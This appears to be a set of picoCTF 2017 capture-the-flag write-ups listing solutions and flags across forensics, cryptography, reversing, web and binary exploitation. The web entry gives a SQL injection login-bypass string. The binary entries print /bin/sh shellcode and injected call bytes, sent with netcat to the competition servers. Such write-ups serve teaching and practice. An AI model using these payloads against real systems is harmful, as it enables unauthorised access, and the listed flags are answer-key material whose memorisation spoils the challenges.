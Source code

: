 # Forensics

## Meta Find Me
Use som program to find meta data about the image and look for comments and GPS coordinates.

The flag is

`flag_2_meta_4_me_40_124_affa`

---

# Cryptography

## SoRandom
Just reverse the algorithm.

The flag is
`FLAG:3b1fa718577cd90efb2fdf5832b6a849`

---

## LeakedHashes
Take one of the hashes, do some Google fu, find the pre-image (no, hashes can *not* be decrypted or decoded...)

The flag is

`18e27fcac2c4b21329e0b118898794c0`

---

## Weird RSA
Using the Chinese Remainder theorem, we can compute the private key and decrypt the message. Then we convert the number into the corresponding ascii values.

The flag is

`Theres_more_than_one_way_to_RSA`

---

# Reverse Engineering

## A Thing Called the Stack
The return address lies right above the saved stack frame (ebp). Then, we have 4 push instructions that pushes 4 bytes each. Next we have the sub instruction that moves the stack pointer 0xf8 bytes further. In total, the distance between the esp and the return address is 264.

The flag is

`0x108`

---

## Programmers Assemble
To get out of the loop, eax must be zero. each round, ebx is incremented by 5 (the value of ecx). In the _fin_ function, we need ebx to be 0x8f2f. Thus, we must have run the loop for a fifth, i.e. 7331 number of times. We must load eax with this value, in hex.

The flag is

`0x1ca3`

---

# Web Exploitation

## My First SQL
Just a simple SQL injection a la

`' OR '1'='1`

The flag is

`be_careful_what_you_let_people_ask_1b3db77df6b116a38db8ceb7c81cb14c`

---

# Binary Exploitation

## Shellz
Find shellcode to run /bin/sh and inject. To keep netcat open, add a `cat -`.

`(python2 -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'; cat -) | nc shell2017.picoctf.com 12562`

Then, run `cat flag.txt`

The flag is

`f6f01bf0649b5aa5ec299bb51c8f8db4`

## Shells
We need to inject instructions to call the "win()" function. Radare2 tells us that the function
is located at address `0x08048540`.
An easy way is to just add the value to a register and call it:

```
mov eax, 0x08048540
call eax
```

Radare2 gives us the following:

```
rasm2 -a x86 -b 32 'mov eax, 0x08048540; call eax'
b840850408ffd0
```

Save the raw bytes to a file, then run

`cat input| nc shell2017.picoctf.com 58279`

The flag is

`84f1e856de605076057b0687dfd0865f`
